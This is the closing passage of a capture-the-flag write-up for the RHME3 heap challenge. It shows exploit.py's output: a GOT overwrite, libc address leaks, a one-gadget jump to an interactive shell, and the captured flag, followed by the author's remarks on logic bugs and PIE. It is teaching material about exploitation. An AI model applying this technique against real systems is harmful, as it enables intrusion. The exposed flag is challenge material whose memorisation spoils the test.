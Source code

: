 The important parts are the functions ``setup()`` and ``__main__``.

## Conclusion

Finally the challenge is solved:

```
$ python exploit.py
[*] trying to overwrite got @0x603018
[*] libc function address 0x7f676dc944f0
[*] libc base address     0x7f676dc10000
[*] one gadget at 0x7f676dc55390
[*] Switching to interactive mode
$ ls
flag
main.elf
$ cat flag
RHME3{h3ap_0f_tr0uble?}
```

It was a very interesting challenge: didn't use the very common buffer overflow but a simple
logic bug; in particular shows that also with a number of modern protection the exploiting
it's very possible. Probably enabling ``PIE`` should have make more troublesome the creation of a weird machine.

